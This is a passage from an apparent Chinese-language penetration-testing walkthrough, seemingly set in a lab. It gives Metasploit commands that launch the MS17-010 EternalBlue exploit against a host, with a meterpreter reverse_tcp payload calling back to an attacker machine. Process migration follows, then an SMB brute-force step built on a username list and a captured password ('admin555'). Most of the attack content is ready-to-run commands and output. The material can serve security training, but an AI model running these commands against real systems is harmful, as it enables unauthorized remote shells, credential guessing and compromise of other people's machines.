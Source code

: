 2、msf 直接上

```msf
msf6 > search ms17-010

msf6 exploit(multi/handler) > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.0.102
rhosts => 192.168.0.102
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.0.103
lhost => 192.168.0.103
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 1234
lport => 1234
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
```

<img src=".\图片\Snipaste_2023-05-21_13-37-04.png" alt="Snipaste_2023-05-21_13-37-04"  />

自动迁移进程

```
meterpreter > run post/windows/manage/migrate
```

## 方法二

smb 用户爆破

1、把netbios name设置用户列表 使用smb 登录模块进行批量弱口令测试

用户列表：

```
administrator
WIN2003
AD01
AD02
WIN7
```

win2003 里抓取的密码： admin555，或者放弱口令字典

msf 里：

```
msf6 > use scanner/smb/smb_login
```
